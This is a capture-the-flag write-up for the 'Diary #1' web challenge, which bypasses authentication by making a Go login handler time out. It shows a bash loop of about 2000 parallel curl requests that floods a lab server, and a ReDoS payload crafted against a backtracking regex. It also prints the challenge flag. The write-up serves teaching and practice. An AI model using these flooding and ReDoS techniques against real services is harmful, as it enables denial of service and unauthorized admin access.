



# Diary #1

The challenge is a variant of `Diary`. It only differs by patching the SQL injection.

This version runs on the `23689`. 

For more info, see [Diary](../Web_Diary/WRITEUP.md).

# Timeout

The user validation is not handling timouts very well. On timeout it still returns the userID, which would generate a valid token for the admin user.


```go
func validateUser(creds Credentials) (int, error) {
	var userID int
    //redacted
	ctx, cancel := context.WithTimeout(context.Background(), 5*time.Second)
	defer cancel()
    //redacted
	go func() {
			usernameRegex := regexp2.MustCompile(`^\s*([a-zA-Z0-9]+)*\s*$`, 0)
			if m, _ := usernameRegex.FindStringMatch(creds.Username); m != nil {
				gps := m.Groups()
				username = gps[1].Captures[0].String()
			}
  			//redacted
	}()

	select {
	case err := <-queryResult:
		if err != nil {
			return -1, errors.New("no user found")
		}
	case <-ctx.Done():
		return userID, err
	}
	return userID, nil
}

```

As an easy solution, flooding the server for a few seconds would cause the server to timeout and handle out tokens. 

After local testing, ~2000 requests should be enough to stall the server a little, but won't overload it for more than a few seconds.

```bash
for i in {1..1000}; do (curl -s 'http://10.10.1.10:23689/login' -X POST --data-raw '{"username":"admin","password":"a"}' | grep token) & done
for i in {1..1000}; do (curl -s 'http://10.10.1.10:23689/register' -X POST --data-raw '{"username":"admin","password":"a"}' > /dev/null) & done
```



Using any of the tokens would log in as the admin.



With access to the flag.



# Flag

`CQ24{4r3_They_ReallY_SaFe_d0E?}`

# Regex

The regex library is not the default. 

```
Regexp2 is a feature-rich RegExp engine for Go. It doesn't have constant time guarantees like the built-in regexp package, but it allows backtracking and is compatible with Perl5 and .NET.
```

Abusing the regex pattern `^\s*([a-zA-Z0-9]+)*\s*$` for catastrophic backtracking can also timeout the server.

There is an offline tool that can be installed via pip to check and exploit regexes: [regexploit](https://pypi.org/project/regexploit/). Alternatively <https://devina.io/redos-checker> can be also used as an online tool.

```bash

echo '^\s*([a-zA-Z0-9]+)*\s*$' | regexploit
```

```
Redos(starriness=11, prefix_sequence=SEQ{ [SPACE]{0+} }, redos_sequence=SEQ{ [[a-z],[0-9],[A-Z]]{1+}{0+} [SPACE]{0+} $[20,a0,[a-z],[0-9],[09-0d],[A-Z]] }, repeated_character=[[a-z],[0-9],[A-Z]], killer=[^20,a0,[a-z],[0-9],[09-0d],[A-Z]])
Worst-case complexity: 11 * * * * * * * * * * (exponential)
Repeated character: [[a-z],[0-9],[A-Z]]
Final character to cause backtracking: [^20,a0,[a-z],[0-9],[09-0d],[A-Z]]
Example: '0' * 3456 + '!'
```

There is a check that the regex length should be less than or equal 32, so a minor tweak would be required, but it is still running long enough to trigger a timeout.

```bash
curl -s 'http://10.10.1.10:23689/login' -X POST --data-raw '{"username":"0000000000000000000000000000000!","password":"a"}'
```

This handles out a token the same way the flood does, but more cleanly.
